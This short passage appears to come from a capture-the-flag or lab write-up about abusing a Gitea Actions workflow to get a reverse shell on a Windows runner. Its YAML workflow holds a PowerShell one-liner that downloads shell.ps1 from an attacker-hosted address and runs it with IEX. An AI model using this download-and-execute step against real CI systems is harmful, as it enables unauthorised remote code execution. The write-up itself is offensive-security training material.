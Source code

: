 <img src="attachments/2dfaa20ec2ad581c5610586c501bb01a.png" />

Putting the base64-encoded reverse shell didn't work as it gave errors, so we manually hosted the payload in a `shell.ps1` file on Falcon and used a PowerShell one-liner to download and execute it on the box.

<img src="attachments/e33c7d77eaa8d87e5844969b38608086.png" />

```yaml
name: Build
run-name: ${{ gitea.actor }} is testing out Gitea Actions
on: [push]
jobs:
  Shell:
    runs-on: windows-latest
    steps:
    - name: shell
      run: powershell -nop -c "IEX (New-Object Net.WebClient).DownloadString('http://10.8.4.157/shell.ps1')"
```

